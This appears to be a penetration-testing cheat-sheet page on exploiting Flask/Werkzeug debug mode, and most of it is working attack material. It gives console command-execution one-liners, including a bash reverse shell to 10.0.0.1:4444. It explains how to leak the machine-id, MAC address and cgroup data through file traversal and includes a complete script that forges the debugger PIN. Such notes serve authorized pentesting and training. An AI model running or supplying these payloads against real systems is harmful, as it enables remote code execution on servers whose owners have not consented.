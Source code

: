 # Werkzeug

## Theory

Werkzeug is a comprehensive [WSGI](https://wsgi.readthedocs.io/en/latest/) web application library. It began as a simple collection of various utilities for WSGI applications and has become one of the most advanced WSGI utility libraries. It is commonly used for Flask web application.

## Practice

### Console RCE

If debug is active you could try to access to `/console` endpoint or to trigger a Werkzeug error and gain RCE.

{% tabs %}
{% tab title="Exploit" %}
```python
__import__('os').popen('whoami').read();
import os; print(os.popen("whoami").read())

# Reverse shell
__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"').read()
```
{% endtab %}
{% endtabs %}

### Console PIN Exploit

In some occasions the **`/console`** endpoint is going to be protected by a pin. If you have a **file traversal vulnerability**, you can leak all the necessary info to generate that pin.

According to the Werkzeug [PIN generation source code](https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/\_\_init\_\_.py), here are the needed variables to generate the PIN code:

<details>

<summary>Needed variables</summary>

Variables needed to exploit the console PIN:&#x20;

```python
probably_public_bits = [
    username,
    modname,
    getattr(app, '__name__', getattr(app.__class__, '__name__')),
    getattr(mod, '__file__', None),
]

private_bits = [
    str(uuid.getnode()),
    get_machine_id(),
]
```

</details>

<details>

<summary>probably_public_bits</summary>

#### username

This is the user who started this Flask instance. You may find it in `/proc/self/environ`

#### modname

It's flask.app

#### getattr(app, '**name**', getattr (app .\_\_ class\_\_, '**name**'))

It's generally `Flask` but it may change depending of how the server has been started. Check [this video](https://www.youtube.com/watch?v=MVItEDBBcgg) for details.

You may want to download application files, edit `python3.5/site-packages/werkzeug/debug/__init__.py` to make it print `probably_public_bits` and run it locally to get the right variable.

#### getattr(mod, '\_\_file\_\_', None)

is the absolute path of `app.py` in the flask directory (e.g. `/usr/local/lib/python3.5/dist-packages/flask/app.py`). If `app.py` doesn't work, try `app.pyc` \
You may find this information in the Werkzeug error message.

</details>

<details>

<summary>private_bits</summary>

#### uuid.getnode()

is the MAC address of the current computer, str(uuid.getnode()) is the decimal expression of the mac address.

To find server MAC address, need to know which network interface is being used to serve the app (e.g. ens3). If unknown, leak `/proc/net/arp` for device ID and then leak MAC address at `/sys/class/net/<device id>/address`.

Convert **from hex address to decimal** representation by running in python e.g.:

```python
# It was 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```

Side note: It looks like Ubuntu Desktop doesn’t return “correct” values for getnode

#### get\_machine\_id()

concatenate the values in `/etc/machine-id` or `/proc/sys/kernel/random/boot_id` with the first line of `/proc/self/cgroup` after the last slash (/).

To clarify, here is the code used by Werkzeug to generate the machine\_id

```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:                                                                                                  
    global _machine_id

    if _machine_id is not None:
        return _machine_id

    def _generate() -> t.Optional[t.Union[str, bytes]]:
        linux = b""

        # machine-id is stable across boots, boot_id is not.
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id": 
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue

            if value:
                linux += value
                break

        # Containers share the same machine id, add some cgroup
        # information. This is used outside containers too but should be
        # relatively stable across boots.
        try:
            with open("/proc/self/cgroup", "rb") as f:
                linux += f.readline().strip().rpartition(b"/")[2]
        except OSError:
            pass

        if linux:
            return linux

        # On OS X, use ioreg to get the computer's serial number.
        try:
```

</details>

Once all variables prepared, run exploit script to generate Werkzeug console PIN:

<details>

<summary>Generate the PIN</summary>

You can use the following code with previous values to generate a valid PIN code

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
]

#h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

If you are on a new version of Werkzeug, try changing the hashing algorithm to **sha1** instead of **md5**.

</details>

## Resources

{% embed url="https://exploit-notes.hdks.org/exploit/web/framework/python/werkzeug-pentesting" %}

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug" %}
